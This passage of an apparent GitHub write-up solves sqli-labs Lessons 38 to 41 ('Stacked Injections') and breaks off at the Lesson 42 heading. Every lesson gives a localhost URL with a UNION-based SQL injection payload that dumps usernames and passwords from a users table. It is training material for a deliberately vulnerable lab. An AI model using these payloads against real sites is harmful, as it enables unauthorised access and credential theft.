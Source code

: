 # Chapter-12

This section will contain write-ups for the ```Stacked Injections``` section of sqli-labs. 

## Lesson 38

This is a rather simple challenge. 

The url for this challenge is as follows -

```
http://localhost/sqlilabs/Less-38/?id=-1' union select 1, group_concat(username), group_concat(password) from users limit 0, 1 --+
```

:star2: Yaaaaay! This was the last challenge in the advanced section of ```sqli-labs```. 

## Lesson 39 

A simple challenge. Sql injection can be performed directly without breaking the query. 

The url for the same will look somewhat like this - 

```
http://localhost/sqlilabs/Less-39/?id=-1 union select 1, group_concat(username), group_concat(password) from users limit 0, 1 --+
```

## Lesson 40 

A simple blind injection challenge. On breaking the query with a ```'```, the website does not show any error message. Hence, we have to guess and fix the query. 

The url for this challenge is shown below - 

```
http://localhost/sqlilabs/Less-40/?id=-3') union select 1, group_concat(username), group_concat(password) from users limit 0, 1 --+
```

## Lesson 41

This is also a blind injection challenge. We might skip the obvious here. 

We can get the data by performing a direct injection without breaking the query. 

The url for the same is shown below - 

```
http://localhost/sqlilabs/Less-41/?id=-3 union select 1, group_concat(username), group_concat(password) from users limit 0, 1 --+
```

## Lesson 42

